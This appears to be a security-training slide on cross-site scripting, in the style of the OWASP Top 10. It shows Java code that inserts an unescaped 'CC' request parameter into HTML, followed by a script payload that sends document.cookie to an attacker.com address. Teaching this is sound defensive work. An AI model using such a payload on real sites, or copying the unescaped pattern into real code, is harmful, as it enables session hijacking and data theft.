

# A3 – Cross-Site Scripting
Very wide spread issue
Can be either executed on the server or client
Can also be stored or reflected attacks
Attackers execute scripts via a browser
The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:
 (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
The attacker modifies the ‘CC’ parameter in his browser to:
 '><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi? foo='+document.cookie</script>'.
This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.